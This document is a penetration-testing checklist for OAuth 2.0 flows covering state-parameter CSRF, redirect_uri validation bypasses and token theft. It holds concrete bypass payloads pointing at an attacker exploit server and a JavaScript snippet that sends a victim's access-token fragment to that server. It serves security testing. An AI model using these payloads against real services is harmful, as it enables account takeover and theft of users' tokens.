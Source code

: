# OAuth 2.0 Testing Checklist

Start by creating two accounts on your target of choice. Let's call one victim and one attacker. 

## Recon

1) Once you've located an OAuth flow on the app, connect one of your accounts and make sure the flow get's captured in the history. What kind of flow is it using? Code grant, or implicit grant? Something else?
2) If you find that it's using the Implicit Grant flow, try to identify the POST request which sends the credentials. Can you modify the email to your victim account and get connecting to their account instead of yours? If not, move on. 
3) Check to see if `/.well-known/oauth-authorization-server` or `/.well-known/openid-configuration` endpoints exist on the OAuth provider (not the content provider). This may give you key information in a JSON response body. Save anything interesting you may find and move on. 

## Testing for CSRF account takeover

1) Check to see if there's a state= parameter. If not, you may be able to initiate an OAuth CSRF. **I believe this is only applicable if you can sign in via email/password OR linking a social media account. You need a way to create an attacker account but still have an option to link a social media profile to it.**
	 - Create an account using your attacker's email and a password. Do not link a social media profile. Do the same for the victim account. 
	 - Locate where you can link a social media profile and initiate the flow, making sure Intercept is on in the Burp Proxy. 
	 - Once you arrive at the request containing all the OAuth parameters, send it to Repeater, drop the request, and stop capturing traffic in the proxy.
	 - Now make the captured request with your victim instead of the attacker who initiated the flow. 
	 - Try logging in again as the attacker and see if you have access to the victim's account. If so, bingo. **Keep in mind that for this to work you would need a victim account to also have created an account via password and not have linked a social media profile yet. The idea is getting your social media account associated with their password-based account.**
2) Even if the state= parameter exists, try the same steps as above, but remove the parameter. Perhaps if it's removed it will simply be ignored.Try a third time but the value of the state parameter by one char. Maybe it's not actually validating the state parameter. In either case you found a vulnerable instance.

	**If the only option to log in is via OAuth, the state parameter is less critical, but you may be able to trick a victim into logging in to your account. YMMV**

## Testing the redirect_uri

In this example, we will use http://wearelucid.io as the exploit server. 

1) Authenticate your victim email to the application via OAuth. This attack only works on victims who have valid OAuth credentials. Make sure you take note of all requests and responses, especially the one that sends to code to the OAuth provider. You'll need to manually make this request as the attacker in order to complete the exploit. 
2) As the victim try signing in via OAuth and intercepting the OAuth request containing the request_uri parameter. Send it to the Repeater, drop the request in the Proxy and stop intercepting.
3) Begin testing the validation of the request_uri parameter. Try these tests...
	- Changing the value of the request_uri parameter to an entirely different server that you control (Burp collaborator or a VPS) but with the same oauth directory
	- Try keeping the original redirect_uri, but appending a second one with your exploit server `redirect_uri=https://valid.server.com/oath-callback&redirect_uri=http://wearelucid.io/oauth-callback`
	- Try appending values onto the end of the valid redirect uri parameter. Typical SSRF bypasses are good to try...

		```
		redirect_uri=https://valid.server.com/oauth-callback&http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback#http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback?http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback;http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback@http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback.http://wearelucid.io
		```
	or combinations of the above as well

    - Try reversing the above combinations e.g

	```
	redirect_uri=https://wearelucid.io/oauth-callback&@https://valid.server.com
	```

    - Attempt to configure a subdomain on your attack server with the name of the valid server e.g.

	```
	redirect_uri=http://valid.server.com.wearelucid.io/oauth-callback
	```

    - On the off chance that any URI with localhost in it's name is allowed, try this as well

	```
	redirect_uri=http://localhost.wearelucid.io/oauth-callback
	```

4) In addition to the above tests, try changing the response_mode= parameter from query to fragment, or vice versa. You may run into an entirely different validation schema in different modes. For example if you try the response_mode=web_message value, a wider range of subdomains may be allowed in the redirect_uri parameter. If you're feeling ambitious, go through the above bypasses again to see if there is any difference. 

**To prove exploitation**
1) If any of those work, initate an OAuth flow as your victim, capture the request containing the redirect_uri parameter, send it to the repeater, drop the request and stop intercepting. Then, as your victim in a different browser, visit the maliciously crafted URL
2) View your access log on your exploit server to see the stolen code the victim sent to you. As the attacker, copy the code and manually make the request that sends the code to the OAuth provider. Observe that you've logged in as the victim. Good job. 


## Stealing tokens and codes

If none of those bypasses work then the URI validation seems to be solid. At this point you'll want to try directory traversal methods and open redirect chaining. 

1) Try the proper redirect_uri= value, but with a directory traversal to another directory on the same server.
	```
	redirect_uri=https://valid.server.com/oauth-callback/../some/other/directory
	```
2) If that doesn't give you an error it's time to start looking for an open redirect vulnerability, or a URL with a GET parameter that has a reflected XSS on the same host. In the case of an open redirect...
	-  If authorization code, you should be able to just redirect to your own server and in your logs you wll see the code=value
	- If implicit grant you actually have a little more work to do. You will need to host code that extracts the URL fragment because it won't show up in logs. As an example...

	```javascript
	if(!window.location.hash) { 
		document.location = 'https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email' 
	} else { 
		window.location = '/?hash='+document.location.hash.substr(1) 
	}
	```

**To prove exploitation** 

If it's authorization code flow....

1) As the victim in a different browser, manually visit the vulnerable OAuth request https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email. You should see the code come through in your exploit server log. 
2) As the attacker in a separate browser or tab, send the code you stole to the OAuth provider: https://oauth.server.com/oauth-callback?code=(stolen_code)

If it's implicit grant....

1) Host the above Javascript code on your exploit server (or whatever code you deem works in this situation). 
2) Manually visit the same vulnerable OAuth request as the victim. You should see the access token in the exploit server logs.
3) As the attacker, try to make a request that only the logged in victim should be able to see the response to. Add the stolen code in the `Authorization: Bearer (stolen_code)` header to observer gaining unauthorized access to sensitive functionality.

